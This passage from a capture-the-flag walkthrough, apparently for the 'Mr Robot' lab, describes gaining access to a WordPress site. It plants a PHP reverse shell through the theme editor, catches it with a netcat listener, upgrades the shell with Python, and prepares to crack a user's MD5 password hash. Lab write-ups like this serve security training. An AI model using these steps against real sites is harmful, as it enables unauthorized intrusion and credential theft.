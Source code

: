 Also see: [hydra-usernames.log](hydra-usernames.log) and [hydra-passwords.log](hydra-passwords.log).

## Gaining Access

We can now log into this Wordpress site as "elliot". One way to exploit this access is to navigate to the browser-based file editor for the "archive.php": `/wp-admin/theme-editor.php?file=archive.php` 

Since this is not a heavily used page, you could replace the contents with a [PHP Reverse Shell](https://github.com/pentestmonkey/php-reverse-shell) remembering to change the IP and port to your workstation. Save your changes. For example, you run `netcat` to listen for the incoming connection on port `9000`:

```bash
# Listen for incoming connections...
nc -lvnp 9000
```

Lastly, navigate to: `/wp-content/themes/twentyfifteen/archive.php` to initiate the reverse shell back to your workstation. You should see something like this in the window that was running `netcat`:

```bash
listening on [any] 9000 ...
connect to [10.6.78.155] from (UNKNOWN) [10.10.83.180] 47920
Linux linux 3.13.0-55-generic #94-Ubuntu SMP Thu Jun 18 00:27:10 UTC 2015 x86_64 x86_64 x86_64 GNU/Linux
 03:39:26 up 27 min,  0 users,  load average: 0.00, 1.05, 2.06
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1(daemon) gid=1(daemon) groups=1(daemon)
/bin/sh: 0: can't access tty; job control turned off
$
```

We can slightly upgrade our prompt with:

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

### Unprivileged Access

We now have a primitive prompt running as the `daemon` user. This user doesn't have any `sudo -l` privilege, doesn't have a home directory and can't do much.

We can look and see we have access to the `/home/robot` directory. Within there we have access to 1 of the 2 files:

```bash
drwxr-xr-x 2 root  root  4096 Nov 13  2015 .
drwxr-xr-x 3 root  root  4096 Nov 13  2015 ..
-r-------- 1 robot robot   33 Nov 13  2015 key-2-of-3.txt
-rw-r--r-- 1 robot robot   39 Nov 13  2015 password.raw-md5
```

If we grab the contents of that MD5 file which has `user:password` format and the username specified as `robot`, we can use a website like: [https://hashes.com/en/decrypt/hash](https://hashes.com/en/decrypt/hash) to see if it's a know message digest. It IS! That means we might have the password for the `robot` account. Let's see:
